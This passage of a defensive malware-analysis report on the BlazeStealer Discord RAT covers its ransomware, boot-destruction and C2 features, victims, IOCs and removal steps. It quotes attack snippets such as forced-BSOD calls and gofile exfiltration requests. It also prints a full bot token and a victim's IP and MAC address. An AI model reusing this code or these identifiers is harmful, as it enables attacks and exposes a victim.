The `.listdrives` command lists all storage drives on the victim's computer, including their total size, used space, and free space — helping operators identify valuable storage locations.

## 7.5 System Control Commands

| Command | Effect on Victim's Computer |
|---------|----------------------------|
| `.shutdown` | Shuts down the computer immediately |
| `.bluescreen` | Triggers a Blue Screen of Death (crash) |
| `.computerkill` | Permanently destroys the computer's boot sector and triggers BSOD |
| `.volume [0-100]` | Changes the system volume |
| `.screenon` | Turns the monitor on |
| `.screenoff` | Turns the monitor off |
| `.screentroll` | Rapidly flashes the monitor on and off repeatedly |
| `.wallpaper` | Changes the desktop wallpaper |
| `.hidetaskbar` | Hides the Windows taskbar |
| `.showtaskbar` | Shows the Windows taskbar |
| `.web [url]` | Opens a website in the victim's browser |
| `.voice [text]` | Makes the victim's computer speak a message aloud |

## 7.6 Message Boxes

The malware can display pop-up message boxes on the victim's screen with custom text. These can be used to intimidate, deceive, or communicate with the victim:

| Command | Message Type |
|---------|-------------|
| `.warningmsg [text]` | Warning dialog box |
| `.errormsg [text]` | Error dialog box |
| `.infomsg [text]` | Information dialog box |
| `.questionmsg [text]` | Yes/No question dialog — victim's response is sent back to operators |

The `.questionmsg` command is particularly notable — it can ask the victim a question and report their answer back to the criminals, enabling social engineering attacks.

## 7.7 Input Blocking

The `.winblocker` command blocks all keyboard and mouse input on the victim's computer, making it completely unresponsive. It simultaneously:
- Blocks Alt+Tab, Ctrl+Alt+Del, and the Windows key
- Disables Task Manager via registry
- Plays a voice message telling the victim their system has been disabled
- Displays a pop-up window with instructions to contact "icracked" on Discord

This is effectively a complete system lockout that can be deployed at any time.

## 7.8 Chaos Mode

The `.chaos` command activates a multi-threaded attack that simultaneously:
- Flashes the desktop wallpaper through random colors every 0.1 seconds
- Moves the mouse cursor to random positions every 0.05 seconds
- Randomly resizes and maximizes open windows every 0.3 seconds
- Opens random applications (Notepad, Calculator, Paint, CMD, PowerShell) repeatedly
- Plays random audio tones continuously

The victim's computer becomes completely unusable. The chaos continues until the operator issues `.stopchaos`.

> *Source reference: `decrypted_stage2.py` — `chaos()` command function launching `wallpaper_flasher`, `mouse_mover`, `screen_zoomer`, `window_opener`, and `sound_player` threads*

---
---

# SECTION 8 — DESTRUCTIVE CAPABILITIES

## 8.1 Overview

BlazeStealer includes several capabilities that go beyond theft and surveillance into outright destruction. These features can cause permanent, irreversible damage to a victim's computer.

## 8.2 Ransomware — File Encryption

The `.encryptfiles` command activates a ransomware function that encrypts every file on the victim's `C:\` drive. The encryption uses the Fernet symmetric encryption algorithm.

The process:
1. The operator provides an encryption key
2. The malware recursively scans every file on `C:\`
3. Each file is encrypted and renamed with a `.enc` extension
4. The original file is deleted
5. The victim can no longer open any of their files

The victim's documents, photos, videos, work files — everything — becomes inaccessible. The only way to recover the files is with the decryption key, which only the operator holds.

A corresponding `.decryptfiles` command exists, which the operator can use to restore files — presumably after the victim pays a ransom.

> *Source reference: `decrypted_stage2.py` — `encryptfiles()` command function using `cryptography.fernet.Fernet` and `pathlib.Path('C:/').rglob('*')`*

## 8.3 Ransomware — Screen Lock

The `.ransom` command locks the victim's screen with a full-screen window that cannot be closed. The window:
- Covers the entire screen
- Cannot be minimized, moved, or closed
- Blocks Alt+Tab
- Displays a message demanding a Discord Nitro gift link as payment
- Has a text field where the victim must enter the gift link

When the victim enters a valid Discord Nitro gift link, it is sent to the criminals via a webhook, and the screen is unlocked. The criminals then redeem the Nitro gift for free.

```python
label = tk.Label(window, text="Introduce el enlace de Discord Nitro para recuperar el acceso a tu pc:")
```

> *Source reference: `decrypted_stage2.py` — `ransom()` command function, `open_gui()`, `validate_gift_link()`, and `send_webhook()` functions*

## 8.4 Blue Screen of Death (BSOD)

The `.bluescreen` command triggers an immediate Windows Blue Screen of Death by calling a low-level Windows kernel function:

```python
ctypes.windll.ntdll.RtlAdjustPrivilege(19, 1, 0, ctypes.byref(ctypes.c_bool()))
ctypes.windll.ntdll.NtRaiseHardError(0xc0000022, 0, 0, 0, 6, ctypes.byref(ctypes.wintypes.DWORD()))
```

This crashes the operating system immediately, causing data loss for any unsaved work.

## 8.5 Permanent Boot Destruction

The `.computerkill` command is the most destructive feature in the malware. It:

1. Displays a taunting message: *"Your computer is going to die now, good luck getting it back :)"*
2. Writes a malicious Python script to the Windows startup folder so it runs on every boot
3. Triggers an immediate Blue Screen of Death
4. On every subsequent reboot, the BSOD script runs again automatically

The result is a computer that crashes every time it starts up, making it permanently unusable without professional data recovery intervention. The startup script is placed at:

```
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\Update.py
```

> *Source reference: `decrypted_stage2.py` — `computerkill()` command function writing `Update.py` to the Startup folder and calling `NtRaiseHardError`*

## 8.6 Storage Bomber

The `.storagebomber` command creates an infinite loop that continuously writes 5-gigabyte files to `C:\Windows\System32\Update\` until the victim's hard drive is completely full:

```python
file_content = b'\0' * (1024 * 1024 * 1024 * 5)  # 5 GB per file
```

A full hard drive causes Windows to become unstable and eventually crash. This can also corrupt the operating system if system files cannot be written.

## 8.7 CPU Killer

The `.cpukiller` command launches 10 simultaneous processes, each running an infinite loop that consumes 100% of one CPU core. On a standard computer, this causes the CPU to overheat and the system to become completely unresponsive:

```python
for _ in range(10):
    process = await asyncio.create_subprocess_exec('python', '-c', 'while True: pass')
```

## 8.8 Startup Bomber

The `.bomber` command creates 50 batch files in the Windows startup folder, each containing a shutdown command. On the next reboot, all 50 shutdown scripts execute simultaneously, causing the computer to shut down immediately every time it starts up.

---
---

# SECTION 9 — COMMAND & CONTROL INFRASTRUCTURE

## 9.1 Overview

The malware's Command & Control (C2) infrastructure — the system the criminals use to communicate with infected computers — is built entirely on Discord. This is a deliberate design choice, as Discord traffic looks identical to normal chat application traffic and is rarely blocked by firewalls or flagged by security tools.

## 9.2 The Discord C2 Server

When a victim's computer is infected, the malware connects to a specific Discord server controlled by the criminals. The server's Guild ID is hardcoded in the malware:

```python
guild_id = 1438975480635199722
```

The bot token used to authenticate the malware with Discord is also hardcoded:

```
MTQzODk3NTUzNjMyNzI5OTIwMg.GHmGBc.3RvtEDvgQCsmm1YYbpaoXogAv0GrLnFnDJh_UY
```

> *Source reference: `decrypted_stage2.py` — final line `bot.run("MTQzODk3NTUzNjMyNzI5OTIwMg...")` and `on_ready()` function with `guild_id = 1438975480635199722`*

## 9.3 Automatic Channel Creation

When a new victim is infected, the malware automatically creates a dedicated category in the Discord server named after the victim's computer:

```
{PC_NAME} - {USERNAME}
```

For example, for the confirmed Tunisian victim:
```
DESKTOP-0V99OKA - uare
```

Within this category, the malware automatically creates the following channels:

| Channel Name | Purpose |
|-------------|---------|
| active | Sends a heartbeat notification confirming the computer is online |
| information | Sends the full system profile of the victim |
| tokens | Sends all stolen Discord tokens |
| startup | Confirms that persistence has been established |
| commands | Where operators type commands to control the victim |
| injection | Receives data from the Discord injection module |
| voice | Used for real-time microphone streaming |
| screenshots | Stores screenshots from the caploop command |
| ransom_logs | Receives Nitro gift links from ransomware victims |

> *Source reference: `decrypted_stage2.py` — `on_ready()` event function, channel creation sequence for `active`, `information`, `tokens`, `startup`, `commands` channels*

## 9.4 License Display Channels

The malware also creates four voice channels outside of any category, visible to all members of the Discord server, displaying the operator's license information:

```
User: Klozy
License: 1 Month
Plan: Monthly
Expire: 2025-12-14 20:25:31
```

These channels serve as a status display for the operator and also function as advertising for the malware service to anyone else who might be in the server.

## 9.5 Payload Delivery Server

In addition to the Discord C2, the malware uses a dedicated HTTP server for delivering additional payloads:

| Item | Value |
|------|-------|
| Server IP | 173.208.142.174 |
| Port | 8080 |
| Payload 1 | /files/remotepc.zip — Remote desktop server package |
| Payload 2 | /files/libopus-0.x64.dll — Audio codec for microphone streaming |

This server was confirmed active at the time of our investigation.

## 9.6 GitHub Repository

The malware uses a GitHub repository for hosting the Discord injection script:

```
https://raw.githubusercontent.com/BlazeSquad666/discord-injection/main/injection.js
```

This repository is publicly accessible and was confirmed active at the time of our investigation.

## 9.7 Data Exfiltration via Gofile

For large data packages (such as full browser clones), the malware uploads stolen data to Gofile.io — a free file hosting service — and sends the download link to the operators via Discord:

```python
server_response = requests.get("https://api.gofile.io/getServer")
upload_response = requests.post(f"https://{server}.gofile.io/uploadFile", files={"ufile": f})
```

## 9.8 Command Prefix and Bot Behavior

All operator commands use a period (`.`) as a prefix. The bot only processes commands from channels within the correct victim category, preventing operators from accidentally issuing commands to the wrong victim's computer.

The bot also sets its Discord status to:
```
𝕭𝖑𝖆𝖟𝖊𝕾𝖙𝖊𝖆𝖑𝖊𝖗 𝖔𝖓 𝕿𝖔𝖕
```

---
---

# SECTION 10 — CONFIRMED VICTIMS

## 10.1 Overview

Through analysis of the malware's Discord C2 server logs and the `victims_data.json` file recovered during our investigation, we identified three confirmed victims with active infections. All three victims had the malware running persistently on their computers, surviving reboots.

## 10.2 Victim 1 — Tunisia (CONFIRMED AFRICAN CONNECTION)

This victim represents the direct African connection that validates our research mandate.

| Field | Value |
|-------|-------|
| Username | uare |
| Computer Name | DESKTOP-0V99OKA |
| IP Address | 31.215.240.196 |
| Country | Tunisia 🇹🇳 (North Africa) |
| Operating System | Windows 10, 64-bit, Build 19045 |
| CPU | Intel Core i5-9400 (4 cores) |
| RAM | 11.83 GB |
| Graphics Card | Microsoft Basic Display Adapter |
| Screen Resolution | 1920x1080 |
| MAC Address | f4:39:09:35:8e:09 |
| BIOS | F.48 (HPQOEM) |
| Initial Infection | November 16, 2025 at 21:25:03 UTC |
| Last Active | November 16, 2025 at 22:31:59 UTC |
| Persistence Status | CONFIRMED — Malware survives reboot |

**Attack Timeline for Victim 1:**

| Time (UTC) | Event |
|------------|-------|
| 21:25:03 | Initial infection — system information exfiltrated |
| 21:25:10 | Malware added to Windows startup |
| 21:25:11 | Startup persistence confirmed |
| 21:27:36 | First heartbeat check-in |
| 21:36:36 | Operator retireed_ issues `.tokens` command |
| 21:37:28 | Operator retireed_ issues `.help` command |
| 21:43:33 | Second heartbeat check-in |
| 21:46:21 | Operator oscaritoxx issues `.tokens` command |
| 22:02:21 | Third heartbeat check-in |
| 22:04:42 | Operator retireed_ attempts `.encryptfiles` (ransomware) |
| 22:05:08 | Operator retireed_ attempts `.usernamefucker` (account takeover) |
| 22:05:19 | Operator retireed_ issues `.ransom` — victim's screen locked |
| 22:31:59 | Last heartbeat check-in |
| 13:01:05 (Nov 17) | Operator retireed_ issues `.cap` — screenshot taken |

> *Source reference: `github/victims_data.json` and `github/COMPLETE_INTELLIGENCE_REPORT.md` — Victim 1 (uare / DESKTOP-0V99OKA / Tunisia) profile section*

## 10.3 Victim 2 — Bruno (Location Unknown)

| Field | Value |
|-------|-------|
| Username | Bruno |
| Computer Name | DESKTOP-ET51AJO |
| IP Address | Not extracted |
| Country | Unknown |
| First Seen | November 17, 2025 at 00:59:27 UTC |
| Last Active | November 17, 2025 at 16:31:02 UTC |
| Persistence Status | CONFIRMED — Malware survives reboot |

**Attack Timeline for Victim 2:**

| Time (UTC) | Event |
|------------|-------|
| 00:59:27 | Initial infection |
| 16:31:02 | Last heartbeat (15 hours after infection) |
| 16:31:11 | Startup persistence confirmed |
| 16:31:17 | Bot prompted operators for commands |
| 18:51:05 | Operator retireed_ issues `.help` |
| 18:52:07 | Operator oscaritoxx issues malicious command |

## 10.4 Victim 3 — james (Location Unknown)

| Field | Value |
|-------|-------|
| Username | james |
| Computer Name | DESKTOP-0H1EJSV |
| IP Address | Not extracted |
| Country | Unknown |
| First Seen | November 18, 2025 at 00:53:51 UTC |
| Last Active | November 18, 2025 at 01:45:22 UTC |
| Persistence Status | CONFIRMED — Malware survives reboot |

**Attack Timeline for Victim 3:**

| Time (UTC) | Event |
|------------|-------|
| 00:53:51 | Initial infection |
| 01:45:22 | Last heartbeat |
| 01:45:31 | Startup persistence confirmed |
| 21:33:11 | Operator retireed_ issues `.tokens` command |

## 10.5 Summary of Victim Impact

All three victims experienced the following automatically upon infection:
- All security features disabled (Task Manager, Defender, Control Panel)
- All recovery options destroyed (Safe Mode, System Restore, Backup)
- Discord tokens stolen
- Full system profile sent to criminals
- Malware established persistent access surviving reboots
- Antivirus websites blocked

Victim 1 (Tunisia) additionally experienced:
- Active ransomware deployment (screen locked, Nitro demanded)
- Attempted file encryption
- Attempted account takeover (username change)
- Screenshot capture the following day

---
---

*[END OF SESSION 3 — Sections 7, 8, 9, and 10]*
*Continuing immediately with Session 4: Sections 11, 12, 13, 14, and 15*

---
---

# SECTION 11 — THREAT ACTOR PROFILES

## 11.1 Overview

Through analysis of the Discord C2 server logs, the malware source code, and open-source intelligence gathering, we have identified and profiled three individuals connected to this malware campaign: the malware author and two active operators.

---

## 11.2 Threat Actor 1 — Klozy (Malware Author)

Klozy is the individual who created, maintains, and sells BlazeStealer RAT. They operate under the group name **BlazeSquad666**.

| Attribute | Value |
|-----------|-------|
| Handle | Klozy |
| Group | BlazeSquad666 |
| Role | Malware Author / Seller |
| Discord Contact | icracked |
| Bot Username | klozy#5928 |
| Bot ID | 1438975536327299202 |
| Bot Discriminator | 5928 |
| GitHub | BlazeSquad666 |
| License Model | Subscription (1 Day / 1 Month / Lifetime) |
| License Expiry (analyzed copy) | 2025-12-14 20:25:31 |
| Default Victim Password | hackedbyblazesquad2465 |

**What Klozy Does:**

Klozy built and maintains the malware as a commercial product. They sell access to it via Discord, manage the licensing system, host the payload delivery server at `173.208.142.174:8080`, and maintain the GitHub repository at `BlazeSquad666/discord-injection`.

The malware's branding — the gothic **𝕭𝖑𝖆𝖟𝖊𝕾𝖙𝖊𝖆𝖑𝖊𝖗** text, the red color scheme, the skull emoji commands — all reflect Klozy's deliberate design choices. The contact handle `icracked` appears in the ransomware screen lock message shown to victims, directing them to contact Klozy directly on Discord.

**Evidence from Source Code:**

The following line appears in the ransomware screen lock function, hardcoded by Klozy:

```python
tk.Label(window, text="Your system has been completely deactivated, to activate it again write to the discord of: icracked")
```

This confirms that Klozy is directly involved in the ransom payment process.

> *Source reference: `decrypted_stage2.py` — lines 2–5 (`USERNAME_WEB`, `LICENSE_TYPE`, `PLAN`, `EXPIRE`) and `winblocker()` function containing the `icracked` contact string*

---

## 11.3 Threat Actor 2 — retireed_ (Primary Operator)

retireed_ is the most active criminal operator identified in this investigation. They were observed issuing commands across all three confirmed victims.

| Attribute | Value |
|-----------|-------|
| Discord Username | retireed_ |
| Display Name | 👹 |
| Discord ID | 1432098418930487388 |
| Role | Primary Operator |
| Clan Server ID | 763311105434714113 |
| Clan Tag | ﷽﷽﷽﷽ |
| Clan Badge Hash | dea97e909a0211e2479d75cd11c2ec41 |
| Activity Level | High — commands issued across all 3 victims |

**Commands Observed Being Issued:**

| Command | Target Victim | Timestamp (UTC) |
|---------|--------------|-----------------|
| `.tokens` | Victim 1 (Tunisia) | Nov 16, 21:36:36 |
| `.help` | Victim 1 (Tunisia) | Nov 16, 21:37:28 |
| `.encryptfiles` | Victim 1 (Tunisia) | Nov 16, 22:04:42 |
| `.usernamefucker` | Victim 1 (Tunisia) | Nov 16, 22:05:08 |
| `.ransom` | Victim 1 (Tunisia) | Nov 16, 22:05:19 |
| `.cap` | Victim 1 (Tunisia) | Nov 17, 13:01:05 |
| `.help` | Victim 2 (Bruno) | Nov 17, 18:51:05 |
| `.tokens` | Victim 3 (james) | Nov 18, 21:33:11 |

**Assessment:**

retireed_ is the primary attacker in this campaign. They demonstrated knowledge of the malware's full capability set, attempting ransomware deployment, file encryption, and account takeover on the Tunisian victim within minutes of infection. Their use of the `.ransom` command confirms intent to extort victims financially. The display name 👹 (devil emoji) and clan tag using the Arabic Basmala character (﷽) repeated four times suggests deliberate use of provocative and culturally charged symbolism.

> *Source reference: `github/COMPLETE_INTELLIGENCE_REPORT.md` — Section 3, Primary Operator: retireed_ profile and command log*

---

## 11.4 Threat Actor 3 — oscaritoxx (Secondary Operator)

oscaritoxx is a secondary operator who participated in attacks on Victims 1 and 2.

| Attribute | Value |
|-----------|-------|
| Discord Username | oscaritoxx |
| Display Name | Oscarito |
| Global Name | Oscarito |
| Discord ID | 1225098902324117685 |
| Role | Secondary Operator |
| Avatar Hash | 8fda32111f6d9f5d4a039e5664a220be |
| Avatar Decoration SKU | 1144308439720394944 |
| Clan Server ID | 1366533822958534676 |
| Clan Tag | FIVE |
| Clan Badge Hash | 0bbace64a460a43475fd2453612d6b51 |
| Activity Level | Moderate |

**Commands Observed Being Issued:**

| Command | Target Victim | Timestamp (UTC) |
|---------|--------------|-----------------|
| `.tokens` | Victim 1 (Tunisia) | Nov 16, 21:46:21 |
| Malicious command | Victim 2 (Bruno) | Nov 17, 18:52:07 |

**Assessment:**

oscaritoxx appears to be a less experienced or less active operator compared to retireed_. Their primary observed activity is Discord token theft. The avatar decoration SKU `1144308439720394944` indicates they have a paid Discord Nitro subscription, suggesting they have financial resources. Their clan tag "FIVE" and separate clan server suggest they may be affiliated with a different criminal group that also uses BlazeStealer.

> *Source reference: `github/COMPLETE_INTELLIGENCE_REPORT.md` — Section 3, Secondary Operator: oscaritoxx profile*

---

## 11.5 Relationship Between Actors

```
BlazeSquad666 (Criminal Organization)
│
├── Klozy (Author/Seller)
│   ├── Develops and maintains BlazeStealer RAT
│   ├── Hosts payload server (173.208.142.174:8080)
│   ├── Manages GitHub repository (BlazeSquad666)
│   └── Sells subscriptions via Discord (icracked)
│
├── retireed_ (Primary Operator / Customer)
│   ├── Purchased BlazeStealer subscription
│   ├── Actively attacks victims
│   └── Deploys ransomware, token theft, file encryption
│
└── oscaritoxx (Secondary Operator / Customer)
    ├── Purchased or shares BlazeStealer access
    └── Primarily conducts token theft
```

---

---

# SECTION 12 — INDICATORS OF COMPROMISE (IOCs)

## 12.1 Overview

The following indicators can be used by security teams, network administrators, and law enforcement to detect, block, or investigate BlazeStealer infections. All indicators were extracted directly from the malware source code and confirmed through live infrastructure analysis.

---

## 12.2 Network Indicators

| Indicator | Type | Description |
|-----------|------|-------------|
| 173.208.142.174 | IP Address | C2 payload delivery server |
| 173.208.142.174:8080 | IP:Port | Payload server port |
| discord.com | Domain | C2 communication channel |
| raw.githubusercontent.com | Domain | Discord injection script delivery |
| api.ipify.org | Domain | Victim IP lookup |
| geolocation-db.com | Domain | Victim geolocation |
| api.gofile.io | Domain | Stolen data exfiltration |
| gofile.io | Domain | Stolen data exfiltration |
| checkip.amazonaws.com | Domain | Researcher IP check |
| https://raw.githubusercontent.com/BlazeSquad666/discord-injection/main/injection.js | URL | Discord injection payload |
| http://173.208.142.174:8080/files/remotepc.zip | URL | Remote desktop payload |
| http://173.208.142.174:8080/files/libopus-0.x64.dll | URL | Audio codec payload |

---

## 12.3 File System Indicators

| Indicator | Type | Description |
|-----------|------|-------------|
| C:\Windows\System32\Intel\ | Directory | Malware installation directory |
| C:\Windows\Tasks\p4yl0ad | File | UAC bypass payload file |
| C:\Windows\Tasks\EventViewerRCE.ps1 | File | UAC bypass PowerShell script |
| %LOCALAPPDATA%\Microsoft\Event Viewer\RecentViews | File | UAC bypass disguised payload |
| %LOCALAPPDATA%\RemotePC\server.exe | File | Remote desktop server |
| %LOCALAPPDATA%\RemotePC\ngrok.exe | File | Tunneling tool |
| %LOCALAPPDATA%\actives.db | File | Local SQLite database tracking active infections |
| %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\Update.py | File | Permanent BSOD startup script (computerkill) |
| C:\Windows\System32\Update\ | Directory | Storage bomber target directory |
| logs.txt | File | Keylogger output file |
| BrowsersInfo.zip | File | Stolen browser data package |
| index.js (in Discord app folder) | File | Injected Discord token stealer |

---

## 12.4 Registry Indicators

| Registry Key | Value Name | Data | Description |
|-------------|------------|------|-------------|
| HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run | conhost.exe | Path to malware | Startup persistence |
| HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System | DisableTaskMgr | 1 | Task Manager disabled |
| HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer | NoControlPanel | 1 | Control Panel disabled |
| HKLM\SOFTWARE\Policies\Microsoft\Windows Defender | DisableAntiSpyware | 1 | Windows Defender disabled |
| HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU | NoAutoUpdate | 1 | Windows Update disabled |
| HKLM\SYSTEM\CurrentControlSet\Services\USBSTOR | Start | 4 | USB storage disabled |
| HKLM\SYSTEM\CurrentControlSet\Control\SecureBoot\State | UEFISecureBootEnabled | 0 | Secure Boot disabled |
| HKCU\SOFTWARE\Classes\ms-settings\shell\open\command | (Default) | cmd.exe /c ... | UAC bypass registry key |

---

## 12.5 Scheduled Task Indicators

| Task Name | Trigger | Description |
|-----------|---------|-------------|
| conhost_update | On logon | Malware persistence — runs malware on every login |

---

## 12.6 Network Traffic Indicators

| Pattern | Description |
|---------|-------------|
| Discord bot token starting with `MTQzODk3` | BlazeStealer C2 bot authentication |
| HTTP GET to `173.208.142.174:8080/files/` | Payload download from C2 server |
| HTTP POST to `*.gofile.io/uploadFile` | Stolen data exfiltration |
| HTTP GET to `api.ipify.org` | Victim IP lookup (repeated) |
| HTTP GET to `geolocation-db.com/json` | Victim geolocation lookup |
| HTTP GET to `checkip.amazonaws.com` | Researcher IP blacklist check |

---

## 12.7 Threat Actor Identifiers

| Identifier | Type | Actor |
|------------|------|-------|
| 1432098418930487388 | Discord User ID | retireed_ (Primary Operator) |
| 1225098902324117685 | Discord User ID | oscaritoxx (Secondary Operator) |
| 1438975536327299202 | Discord Bot ID | BlazeStealer C2 bot (klozy#5928) |
| 1438975480635199722 | Discord Guild ID | BlazeStealer C2 server |
| retireed_ | Discord Username | Primary Operator |
| oscaritoxx | Discord Username | Secondary Operator |
| Klozy | Discord Username | Malware Author |
| icracked | Discord Username | Malware Author contact |
| BlazeSquad666 | GitHub Username | Malware Author |
| hackedbyblazesquad2465 | Password | Default victim password set by malware |

---

## 12.8 Victim Identifiers

| Indicator | Type | Description |
|-----------|------|-------------|
| 31.215.240.196 | IP Address | Confirmed Tunisian victim |
| f4:39:09:35:8e:09 | MAC Address | Confirmed Tunisian victim |
| DESKTOP-0V99OKA | Hostname | Confirmed Tunisian victim |
| uare | Username | Confirmed Tunisian victim |

---

## 12.9 File Hash

| Hash | Type | Description |
|------|------|-------------|
| 61a3e046d45038e2ec22791c8cf62e69e176fcb91f2d4c44fa03fe90367bc523 | SHA-256 | BlazeStealer malware sample (Checker.exe) |

---

---

# SECTION 13 — MITRE ATT&CK MAPPING

## 13.1 Overview

The MITRE ATT&CK framework is an internationally recognized standard for describing the tactics and techniques used by cyber attackers. The following table maps every observed BlazeStealer behavior to its corresponding ATT&CK technique, with a plain-language explanation of what it means.

---

## 13.2 Full Technique Mapping

| ATT&CK ID | Technique Name | What BlazeStealer Does |
|-----------|---------------|----------------------|
| **T1059.001** | PowerShell | Uses PowerShell to disable security features, run UAC bypass, and execute system commands |
| **T1059.003** | Windows Command Shell | Uses CMD via subprocess to run system commands on victim machines |
| **T1548.002** | Bypass User Account Control | Exploits Windows Event Viewer (eventvwr.exe) to gain admin rights without triggering UAC prompt |
| **T1547.001** | Registry Run Keys / Startup Folder | Adds itself to HKCU Run registry key as "conhost.exe" for persistence on reboot |
| **T1053.005** | Scheduled Task | Creates "conhost_update" scheduled task to run on every user logon |
| **T1036.004** | Masquerading — Match Legitimate Name | Names itself "conhost.exe" and hides in "C:\Windows\System32\Intel\" to blend in with legitimate Windows files |
| **T1564.001** | Hidden Files and Directories | Uses `attrib +h` to hide malware files from normal file browsing |
| **T1562.001** | Impair Defenses — Disable or Modify Tools | Disables Windows Defender, Task Manager, Control Panel, and Security Center via registry |
| **T1562.004** | Impair Defenses — Disable or Modify Firewall | Modifies hosts file to block antivirus and security websites |
| **T1490** | Inhibit System Recovery | Disables System Restore, Safe Mode, Recovery Environment, Windows Backup, and deletes all backups |
| **T1529** | System Shutdown/Reboot | `.shutdown` command shuts down victim's computer on demand |
| **T1499** | Endpoint Denial of Service | `.cpukiller` and `.storagebomber` commands overwhelm CPU and storage |
| **T1486** | Data Encrypted for Impact | `.encryptfiles` command encrypts all files on C:\ using Fernet encryption |
| **T1491.001** | Defacement — Internal Defacement | `.wallpaper`, `.chaos`, `.screentroll` commands modify victim's visual environment |
| **T1055** | Process Injection | Injects malicious JavaScript into Discord client application files |
| **T1555.003** | Credentials from Web Browsers | Steals saved passwords, cookies, and credit cards from 16 browsers using AES decryption |
| **T1539** | Steal Web Session Cookie | Steals browser session cookies enabling account takeover without passwords |
| **T1528** | Steal Application Access Token | Steals Discord tokens from browser storage and Discord client files |
| **T1005** | Data from Local System | Steals cryptocurrency wallet files from local application directories |
| **T1056.001** | Input Capture — Keylogging | Records all keystrokes using pynput library, saves to logs.txt |
| **T1115** | Clipboard Data | `.clipboardlog` command captures current clipboard contents |
| **T1113** | Screen Capture | `.cap` and `.caploop` commands take screenshots and send to Discord |
| **T1125** | Video Capture | `.videocam` and `.fotocam` commands capture webcam video and photos |
| **T1123** | Audio Capture | `.grabmic` command streams microphone audio in real-time to Discord voice channel |
| **T1020** | Automated Exfiltration | Automatically exfiltrates system info, tokens, and wallet data on infection without operator input |
| **T1041** | Exfiltration Over C2 Channel | All stolen data sent via Discord bot messages and file uploads |
| **T1567.002** | Exfiltration to Cloud Storage | Large data packages uploaded to Gofile.io |
| **T1102.002** | Web Service — Bidirectional Communication | Uses Discord as full C2 channel for both commands and data exfiltration |
| **T1571** | Non-Standard Port | Payload server runs on port 8080 |
| **T1219** | Remote Access Software | Downloads and deploys ngrok + server.exe for full remote desktop access |
| **T1082** | System Information Discovery | Collects OS, CPU, GPU, RAM, BIOS, MAC address, screen resolution on infection |
| **T1016** | System Network Configuration Discovery | Collects public IP address and MAC address |
| **T1033** | System Owner/User Discovery | Collects Windows username and computer name |
| **T1614** | System Location Discovery | `.geolocate` command retrieves GPS coordinates via geolocation API |
| **T1057** | Process Discovery | Scans running processes to detect VM and analysis tools |
| **T1497.001** | Virtualization/Sandbox Evasion — System Checks | Checks for VirtualBox/VMware processes, drivers, DLLs, and registry keys |
| **T1497.003** | Virtualization/Sandbox Evasion — Time Based | Continuous background checks every 0.5 seconds for analysis tools |
| **T1518.001** | Software Discovery — Security Software Discovery | Scans window titles for security analysis tool names |
| **T1070.006** | Indicator Removal — Timestomp | Deletes temporary files after use (webcam images, browser data copies) |
| **T1489** | Service Stop | Stops Windows Update, Security Center, and Backup services |
| **T1112** | Modify Registry | Extensive registry modifications to disable security features and establish persistence |

---

## 13.3 Tactic Coverage Summary

| ATT&CK Tactic | Techniques Used |
|--------------|----------------|
| Initial Access | Social engineering / trojanized software |
| Execution | PowerShell, CMD, Python subprocess |
| Persistence | Registry Run Key, Scheduled Task, Discord Injection |
| Privilege Escalation | UAC Bypass (EventViewer) |
| Defense Evasion | 9 techniques — most comprehensive category |
| Credential Access | Browser credentials, Discord tokens, keylogging |
| Discovery | System info, network config, process scanning, geolocation |
| Collection | Screenshots, webcam, microphone, clipboard, files, wallets |
| Command & Control | Discord bot, HTTP payload server, ngrok tunneling |
| Exfiltration | Discord messages, Gofile.io uploads |
| Impact | Ransomware, BSOD, boot destruction, CPU/storage bombing |

---

---

# SECTION 14 — RECOMMENDATIONS

## 14.1 Immediate Actions (Within 24–48 Hours)

**1. Report the Discord Bot Token to Discord Trust & Safety**

The bot token hardcoded in the malware should be reported to Discord immediately for revocation. Once revoked, the malware on all infected computers will lose its ability to communicate with the operators.

- Report URL: https://discord.com/safety
- Reference: Bot ID 1438975536327299202, Guild ID 1438975480635199722

**2. Report the GitHub Repository**

The `BlazeSquad666/discord-injection` repository hosts the Discord injection script used for persistent token theft. It should be reported to GitHub for removal.

- Report URL: https://github.com/contact/report-abuse

**3. Block the Payload Server**

Any organization with network monitoring capability should block all traffic to and from:
- IP: `173.208.142.174`
- Port: `8080`

**4. Notify the Tunisian Victim**

The confirmed Tunisian victim (IP: 31.215.240.196) should be notified through their Internet Service Provider or through Tunisia's national cybersecurity authority (ANSI):
- Email: cert@ansi.tn
- Website: https://www.ansi.tn

**5. Report to Law Enforcement**

The threat actor identifiers documented in Section 11 are sufficient for a formal law enforcement referral:
- Discord IDs for retireed_ and oscaritoxx
- GitHub identity for BlazeSquad666/Klozy
- C2 server IP address

Recommended agencies:
- INTERPOL Cybercrime Unit
- FBI Internet Crime Complaint Center (IC3): https://ic3.gov
- Europol EC3: https://www.europol.europa.eu/report-a-crime/report-cybercrime-online

---

## 14.2 Detection — How to Find This Malware

**Check for the Scheduled Task:**
```cmd
schtasks /query /tn "conhost_update"
```
If this returns a result, the computer is infected.

**Check for the Registry Key:**
```cmd
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v conhost.exe
```
If this returns a result, the computer is infected.

**Check for the Malware Directory:**
```cmd
dir C:\Windows\System32\Intel\
```
If this directory exists and contains unexpected files, the computer is infected.

**Check the Hosts File for Blocked Websites:**
```cmd
type C:\Windows\System32\drivers\etc\hosts
```
Look for entries pointing `virustotal.com`, `avast.com`, or `malwarebytes.com` to `127.0.0.1`.

**Check for the UAC Bypass Files:**
```cmd
dir C:\Windows\Tasks\p4yl0ad
dir C:\Windows\Tasks\EventViewerRCE.ps1
```

---

## 14.3 Removal Instructions for Infected Computers

> **WARNING:** Due to the malware's extensive disabling of security features, removal should be performed by a trained IT professional. The following steps assume the malware's anti-kill and anti-shutdown features have not been activated.

**Step 1 — Boot into a recovery environment**
Since Safe Mode has been disabled by the malware, use a bootable USB drive with a recovery tool (e.g., Windows PE, Kaspersky Rescue Disk).

**Step 2 — Remove the malware files**
```cmd
rmdir /s /q C:\Windows\System32\Intel\
del C:\Windows\Tasks\p4yl0ad
del C:\Windows\Tasks\EventViewerRCE.ps1
del %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\Update.py
rmdir /s /q %LOCALAPPDATA%\RemotePC\
```
